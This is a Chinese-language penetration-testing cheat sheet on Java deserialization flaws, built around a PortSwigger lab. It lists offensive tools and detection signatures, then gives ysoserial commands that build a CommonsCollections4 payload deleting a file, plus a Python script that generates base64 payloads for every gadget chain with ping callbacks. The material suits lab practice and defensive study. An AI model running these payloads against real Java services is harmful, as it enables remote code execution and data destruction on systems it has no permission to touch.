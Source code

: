 # Java反序列化漏洞

## 靶机

[PortSwigger](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-java-deserialization-with-apache-commons)

[java deserialize webapp](https://github.com/hvqzao/java-deserialize-webapp)

## 工具

[ysoserial](https://github.com/frohoff/ysoserial)

[ysoserial modified](https://github.com/pimps/ysoserial-modified)

[JRE8u20 RCE Gadget](https://github.com/pwntester/JRE8u20_RCE_Gadget)

[jexboss](https://github.com/joaomatosf/jexboss)

[SerialBrute](https://github.com/NickstaDB/SerialBrute)

[SerializationDumper](https://github.com/NickstaDB/SerializationDumper)

[gadgetprobe](https://labs.bishopfox.com/gadgetprobe)

[marshalsec](https://github.com/mbechler/marshalsec)


## 检测

1.白盒

在代码中查找实现 Serialized 接口的类和java.io.ObjectInputStream、readObject、readUnshare 函数的使用

```bash
find . -iname "*commons*collection*"
grep -R InvokeTransformer .
```

2.黑盒

对于黑盒测试，查找表示 java 序列化对象（源自 ObjectInputStream）的特定签名或Magic Bytes：

+ 十六进制模式：AC ED 00 05
+ Base64 模式：rO0
+ Content-type 设置为 application/x-java-serialized-object 的 HTTP 响应标头
+ 指示先前压缩的十六进制模式：1F 8B 08 00
+ 表示先前压缩的 Base64 模式：H4sIA
+ 具有 .faces 扩展名和 faces.ViewState 参数的 Web 文件
```
javax.faces.ViewState=rO0ABXVyABNbTGphdmEubGFuZy5PYmplY3Q7kM5YnxBzKWwCAAB4cAAAAAJwdAAML2xvZ2luLnhodG1s
```

Burp扩展利用工具

[Java Serial Killer](https://github.com/NetSPI/JavaSerialKiller)

[Java Deserialization Scanner](https://github.com/federicodotta/Java-Deserialization-Scanner)

[burp ysoserial](https://github.com/summitt/burp-ysoserial)

[SuperSerial](https://github.com/DirectDefense/SuperSerial)

[SuperSerial Active](https://github.com/DirectDefense/SuperSerial-Active)

## 简单漏洞利用

Apache Commons Collections
```bash
Java16及更高版本
java -jar ysoserial-all.jar \
   --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \
   --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED \
   --add-opens=java.base/java.net=ALL-UNNAMED \
   --add-opens=java.base/java.util=ALL-UNNAMED \
   CommonsCollections4 'rm /home/carlos/morale.txt' | base64

java15及以下：
java -jar ysoserial-all.jar CommonsCollections4 "rm /home/carlos/morole.txt" | base64
```

脚本:
```python
import os
import base64

# You may need to update the payloads
payloads = ['BeanShell1', 'Clojure', 'CommonsBeanutils1', 'CommonsCollections1', 'CommonsCollections2', 'CommonsCollections3', 'CommonsCollections4', 'CommonsCollections5', 'CommonsCollections6', 'CommonsCollections7', 'Groovy1', 'Hibernate1', 'Hibernate2', 'JBossInterceptors1', 'JRMPClient', 'JSON1', 'JavassistWeld1', 'Jdk7u21', 'MozillaRhino1', 'MozillaRhino2', 'Myfaces1', 'Myfaces2', 'ROME', 'Spring1', 'Spring2', 'Vaadin1', 'Wicket1']
def generate(name, cmd):
    for payload in payloads:
        final = cmd.replace('REPLACE', payload)
        print 'Generating ' + payload + ' for ' + name + '...'
        command = os.popen('java -jar ysoserial.jar ' + payload + ' "' + final + '"')
        result = command.read()
        command.close()
        encoded = base64.b64encode(result)
        if encoded != "":
            open(name + '_intruder.txt', 'a').write(encoded + '\n')

generate('Windows', 'ping -n 1 win.REPLACE.server.local')
generate('Linux', 'ping -c 1 nix.REPLACE.server.local')
```
